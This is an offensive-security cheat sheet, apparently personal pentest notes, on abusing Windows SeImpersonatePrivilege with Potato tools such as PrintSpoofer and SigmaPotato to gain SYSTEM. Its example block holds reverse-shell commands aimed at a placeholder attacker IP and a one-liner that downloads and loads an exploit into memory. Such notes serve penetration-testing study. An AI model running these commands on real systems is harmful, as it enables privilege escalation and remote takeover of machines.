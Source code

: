 
## Overview
---
``SeImpersonatePrivilege`` rights allow that user to "permit programs that run on behalf of that user to impersonate a client".  Specifically, exploiting this allows us to run commands and programs as SYSTEM.

## Exploitation Example
---
- ``SeImpersonatePrivilege`` rights can be checked by running ``whoami /priv``.

![[Pasted image 20230424122917.png]]

- To exploit this, we need to copy some tools to the victim.  Some common Potatoes exploiting ``SeImpersonatePrivilege`` listed below:
	- **https://github.com/tylerdotrar/SigmaPotato** *(plugging my own repository)*
	- https://github.com/BeichenDream/GodPotato
	- https://github.com/itm4n/PrintSpoofer
	- https://github.com/zcgonvh/EfsPotato

> [!info]
> - Successful execution of some of these tools can depend on what .NET version is installed on the host, what version of Windows is running, etc.  With that said, that means you may have to try a couple different executables.
> 	 - **PrintSpoofer** works with Windows 10 and Windows Server 2016 - 2019 boxes.
> 	 - **SigmaPotato** is the newest entry to the potato family and works on Windows 8 - Windows 11 and Windows Server 2012 - 2022 systems.

**Example Usage:**
```powershell
# PrintSpoofer executing a PowerShell reverse shell payload
.\PrintSpoofer.exe -c "powershell -e <encoded_powershell_reverse_shell>"

# SigmaPotato executing a PowerShell reverse shell payload
.\SigmaPotato.exe --revshell <attacker_ip> <listening_port>

# (Advanced Method) Load SigmaPotato into memory 
[System.Reflection.Assembly]::Load([System.Net.WebClient]::new().DownloadData("http(s)://<ip_addr>/SigmaPotato.exe"))

# (Advanced Method) Execute Command as SYSTEM from memory
[SigmaPotato]::Main('<command>')
```
